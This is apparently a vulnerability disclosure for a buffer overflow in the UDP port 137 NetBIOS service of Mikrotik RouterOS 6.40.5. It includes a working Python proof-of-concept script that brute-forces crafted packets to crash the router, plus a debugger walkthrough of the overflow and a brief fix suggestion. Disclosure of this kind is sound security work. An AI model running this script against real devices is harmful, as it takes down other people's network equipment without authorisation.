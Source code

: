 

# Mikrotik 6.40.5 路由器 137 接口活动参数缓冲区溢出漏洞



## 1.Basic Information



- **Vulnerability Type**: Buffer Overflow

  **Description**: A buffer overflow vulnerability exists in the Mikrotik 6.40.5 firmware. The service on UDP port 137 is vulnerable, allowing remote attackers to send specially crafted packets that trigger a buffer overflow, resulting in a Denial of Service (DoS).

  **Affected Devices and Versions**:

  - Mikrotik RouterOS 6.40.5
  - Firmware version: Mikrotik 6.40.5



## 2. Proof of Concept (PoC)

The following Python script demonstrates the vulnerability:

```py
import socket
import time

def send_netbios_name_query(target_ip):
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

    ## last byte is the brute-force target
    base_packet = bytes.fromhex(
        "82280110000100000000000024434B41414141414141414141414141414141414141414141414141414141414141414141"
    )

    for i in range(0x01, 0x100):
        packet = base_packet + bytes([i])
        print((packet))
        print(f"[+] Sending packet with last byte: {i:#04x}")
        s.sendto(packet, (target_ip, 137))
        time.sleep(0.01)  # Optional: brief delay to reduce packet loss

    print("[*] All 256 NetBIOS queries sent.")
    s.close()

send_netbios_name_query("192.168.72.140")  # Replace with your RouterOS IP
```



## 3.Exploitation Principle

A buffer overflow occurs in the sub_8060430 function, causing the return address to be overwritten. The overflow happens within the sub_8054607 function. Upon examining the function, we can see that due to the presence of a while loop, the loop only exits when v2 becomes 0; otherwise, it continuously copies data from a2 to a1.
![image](https://github.com/user-attachments/assets/00ea7384-5e73-414e-90bc-d1306a48be00)

Tracing back, we find that the a3 argument is actually a stack address passed from the previous function, meaning it has limited space. However, in the sub_8054607 function, there is no restriction on the range of memory being written to, which results in a stack overflow.To trigger the sub_8054607 function, the UDP payload must be longer than 49 bytes. Although a subsequent qmemcpy limits the amount of data copied from the received UDP packet, the sub_8054607 function itself lacks such bounds checking.
![image](https://github.com/user-attachments/assets/0be3a610-bc57-4fff-8abf-876ee329e922)

Debugging shows that the first check is passed successfully.
![image](https://github.com/user-attachments/assets/82f9e6f2-476f-45a3-9cb9-04690eaa75a6)

Next, 0x32 bytes of data are copied from the received UDP packet.
![image](https://github.com/user-attachments/assets/8c8bfff6-6273-44c5-bac1-4f883b314e4b)

The result after copying is as follows:
![image](https://github.com/user-attachments/assets/f5ae48a0-d8c7-4476-bad7-eb80ee408f48)

Later, the sub_8054607 function is called, where the length of the first copy operation is determined by the 13th byte after the previously copied data. The copying starts just after the 0x20-byte offset.
![image](https://github.com/user-attachments/assets/ce777607-1c89-44e9-b0a9-fa1cbd45a3fe)

After the first round of copying is completed — that is, when 0x20 bytes have been copied — the byte immediately following the last character of this round is treated as the length for the next round of copying. In this case, the value is 0x41.
![image](https://github.com/user-attachments/assets/19d84d5b-cddc-4262-9c44-560d034471d9)

Then proceed to start the next round of assignment
![image](https://github.com/user-attachments/assets/c12c4910-de26-488f-a5af-74a62a61a5b3)

Continue to assign values later:
![image](https://github.com/user-attachments/assets/a6a6bb3b-eeb2-4845-aff9-984668764711)

As long as the value retrieved from memory this time is not 0 (indicating the length of the next assignment), the assignment will continue downward until the retrieved length is 0, and then the loop will exit. However, as mentioned earlier, the length we can control is only 0x32 bytes, so we need to make use of the values that already exist on the stack in the program.

Finally, call the end position of the sub_8054607 function to check the stack space at this time and the position of the return value of the upper-level function (because the destination address of the assignment is inside the stack of the upper-level function) :
![image](https://github.com/user-attachments/assets/b8ac0682-b0c7-4f3f-8d4b-1c2f19b3d245)

Finally, the function returned with an error and exited:
![image](https://github.com/user-attachments/assets/12238d33-ea41-499d-926d-a9d63259075c)

To increase the probability of denial of service, we can try to blast the first or second round multiple times... .. By combining the lengths, try different numbers of rounds as many times as possible to make the number of cycles of this round as many as possible each time the explosion occurs. Finally, the purpose of overwriting the return value of the upper-level function is achieved.
The idea of the blasting script: We set the assignment length of the first round to 0x24：

![image](https://github.com/user-attachments/assets/5477f55a-2133-4991-9a93-6b1479be4874)

It is followed by 23 bytes, and the byte immediately following is the length of the second round of assignment. We can perform an explosion to maximize the use of the 1 to 255 pieces of data on the original stack to explosion the length of the third round of assignment (this will continue to affect the subsequent rounds and thus try more combinations) :
Compared with the non-blasting script: The overflow length of one attempt is not sufficient to cover the return address of the upper-level function sub_8060430
![image](https://github.com/user-attachments/assets/89096755-8a90-4787-9e19-fd0c7269f17f)

Run the blasting script at this time:
Finally, there will be a combination that overwrites the return value of the upper-level function, resulting in dos

![image](https://github.com/user-attachments/assets/f2e59d8b-84fa-4a7c-aa54-0a5c198b4e42)
![image](https://github.com/user-attachments/assets/eba41375-edfe-473f-b1d1-bc5362a8a34f)

## 3. Repair suggestions
Optimize the sub_8054607 function and add a length limit for assignment



## 6. Criteria for Determining a 0day Vulnerability

Searching the CVE database using the keywords "Mikrotik 137 port" did not reveal any related vulnerabilities (typically, directly searching for the interface name in historical vulnerability records can find similar series of vulnerabilities).







